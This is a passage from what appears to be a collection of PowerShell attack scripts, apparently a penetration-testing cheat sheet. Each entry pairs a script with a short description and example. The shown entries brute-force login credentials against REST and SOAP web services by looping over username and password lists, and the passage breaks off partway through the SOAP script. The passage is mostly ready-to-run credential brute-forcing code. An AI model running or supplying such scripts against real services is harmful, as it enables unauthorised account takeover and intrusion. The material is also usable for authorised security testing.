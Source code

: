 ```powershell
        }
    }
}
```

**Description:**

Performs brute-force attacks on a REST web service using basic authentication.

**Example:**

Test all username-password combinations from usernames.txt and passwords.txt against https://api.example.com/resource.

---

**Script/Command:**

```powershell
$usernames = Get-Content "usernames.txt"
$passwords = Get-Content "passwords.txt"
foreach ($username in $usernames) {
    foreach ($password in $passwords) {
        # Obtain the token using the credentials (placeholder function)
        $token = Get-AuthToken -Username $username -Password $password
        $headers = @{ Authorization = "Bearer $token" }
        $response = Invoke-RestMethod -Uri "https://api.snowcapcyber.com/resource" -Method Get -Headers $headers
        if ($response.Status -eq "success") {
            Write-Host "Login successful: $username:$password"
            # Perform additional actions
        } else {
            Write-Host "Login failed: $username:$password"
        }
    }
}
```

**Description:**

Performs brute-force attacks on a REST web service using token-based authentication (requires a token retrieval function).

**Example:**

Test token-based authentication for https://api.snowcapcyber.com/resource.

---

**Script/Command:**

```powershell
$usernames = Get-Content "usernames.txt"
$passwords = Get-Content "passwords.txt"
$delaySeconds = 2
foreach ($username in $usernames) {
    foreach ($password in $passwords) {
        $soapEnvelope = @"<soapenv:Envelope xmlns:soapenv='http://schemas.xmlsoap.org/soap/envelope/' xmlns:web='http://www.snowcapcyber.com/webservice'>
<soapenv:Header/>
<soapenv:Body>
<web:Authenticate>
    <web:Username>$username</web:Username>
    <web:Password>$password</web:Password>
</web:Authenticate>
</soapenv:Body>
</soapenv:Envelope>"@
        $response = Invoke-WebRequest -Uri "https://api.example.com/webservice" -Method Post -Body $soapEnvelope -ContentType "text/xml"
```